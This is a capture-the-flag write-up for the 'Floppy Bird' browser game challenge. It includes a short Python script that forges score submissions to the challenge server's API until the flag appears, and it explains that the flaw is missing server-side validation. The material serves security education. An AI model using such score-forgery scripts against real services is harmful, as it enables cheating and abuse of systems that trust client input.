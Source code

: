 # Floppy Bird – Writeup

## Challenge Description
```
I have recreated one of the most classic games in the browser, can you score 1000 points and get the flag?

Website: http://floppybird.challs.olicyber.it
```
In this challenge, the flag is awarded after reaching a certain score in the game. Instead of playing manually, we can exploit the server’s API to submit arbitrary scores until the flag is revealed.

## Exploit
```python
import requests, json

site = "http://floppybird.challs.olicyber.it/"
token = json.loads(requests.get(site + "get-token").text)["token"]
r = ""

for i in range(1001):
    r = requests.post(site + "update-score", json={"token": token, "score": i}).json()
    if "flag" in r:
        print(r["flag"])
        break
````

## Code Analysis

1. **Token Retrieval**

   * A unique token is obtained from `/get-token`.
   * This token is required for all score submissions.

2. **Score Submission**

   * A loop tests scores from `0` up to `1000`.
   * Each score is submitted via POST to `/update-score` with:

     ```json
     {
       "token": "<your_token>",
       "score": <i>
     }
     ```

3. **Flag Detection**

   * When we reach 1000 points we win so on the 1000th request we retrieve the flag from the JSON response and stop the script.
## Exploitation Steps

1. Request a valid token from the challenge server.
2. Submit increasing scores to `/update-score`.
3. Check the server’s response for the `"flag"` field.
4. Stop when the flag is received and print it.

## Flag

Running the exploit successfully retrieves the flag from the server’s response:

```
ptm{n3v3r_7rus7_cl13n7_s1d3_d4ta}
```

## Key Takeaway

This challenge highlights **broken game logic and lack of server-side validation**.
The server trusts user-submitted scores without verifying their authenticity, making it trivial to cheat and obtain the flag. Secure systems must validate results server-side instead of relying on client input.
